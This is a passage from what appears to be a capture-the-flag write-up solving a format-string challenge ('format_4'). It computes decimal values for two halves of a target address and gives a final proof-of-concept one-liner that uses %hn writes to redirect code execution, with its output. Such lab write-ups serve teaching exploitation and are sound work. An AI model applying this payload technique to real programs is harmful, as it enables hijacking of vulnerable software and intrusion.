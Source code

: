 0x0804 in decimal: **2052** 
0x84fd in decimal: **34045**

So we will write the following:

1. **34045** to **0804a020**
2. **2052** to **0804a022**

Payload calculation in-short: 
```
"\x22\xa0\x04\x08" + "\x20\xa0\x04\x08" + "%(2052-8)d" + "%4\$hn" + "%(34045-2052)d" + "%5\$hn"
```

It's possible to validate via gdb as shown on format-3 solution.

#### 2.3 Final PoC

```
$ python -c 'print "\x22\xa0\x04\x08\x20\xa0\x04\x08%2044d%4$hn%31993d%5$hn"' | ./format_4
"� �                                                                     ...TRIM...
512
...TRIM...
-134493152
code execution redirected! you win
```

**Note:** If first half the addreses are same then last 2 bytes would be enough to solve the challenge.
